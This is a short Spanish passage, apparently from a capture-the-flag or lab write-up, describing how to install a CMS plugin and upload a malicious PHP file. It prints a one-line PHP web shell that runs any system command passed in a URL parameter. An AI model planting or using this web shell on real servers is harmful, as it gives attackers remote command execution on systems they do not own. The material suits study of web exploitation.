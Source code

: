 Vamos a ir al apartado de plugins
![[20250803171637.png]](chocolate-images/20250803171637.png)

y vamos a instalar el plugin About.

![[20250803171658.png]](chocolate-images/20250803171658.png)

aqui subiremos un archivo con php malicioso que contenga lo siguiente 

```php
<?php system($_GET['fatality']); ?>
```
